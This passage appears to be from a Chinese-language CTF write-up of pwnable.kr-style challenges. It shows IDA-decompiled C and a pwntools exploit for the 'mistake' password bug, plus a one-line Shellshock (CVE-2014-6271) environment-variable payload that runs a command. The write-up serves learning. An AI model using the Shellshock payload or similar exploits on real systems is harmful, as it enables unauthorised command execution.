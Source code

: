 IDA里面看也比较直观：

```c
  v8 = __readfsqword(0x28u);
  v3 = open("/home/mistake/password", 0, 256LL, argv);
  if ( v3 >= 0 )
  {
    puts("do not bruteforce...");
    v5 = time(0LL);
    sleep(v5 % 20);
    if ( (signed int)read(0, &buf, 0xAuLL) > 0 )
    {
      printf("input password : ", &buf);
      __isoc99_scanf("%10s", &s2);
      xor((__int64)&s2, 10);
      if ( !strncmp(&buf, &s2, 0xAuLL) )
      {
        puts("Password OK");
        system("/bin/cat flag\n");
      }
```

exp脚本如下：

```python
import time
from pwn import *

context.log_level = 'debug'

password1= 'A'*10
password2 = ''.join([chr(ord(x)^1) for x in password1])

p = process('/home/mistake/mistake')
p.recvuntil('bruteforce...\n')
time.sleep(20)
p.sendline(password1)
#p.recvuntil('password : ')
p.sendline(password2)
p.recvuntil('OK\n')
print p.recvline()
```

## shellshock

此题是对shellshock漏洞的利用，可参看[《实验三ShellShock 攻击实验》](https://www.cnblogs.com/wangba/p/4523420.html)，有时间也可以对CVE-2014-6271进行深入分析。简单的利用方式如下：

```bash
export x='() { :;};/bin/cat flag'
./shellshock
```

## coin1
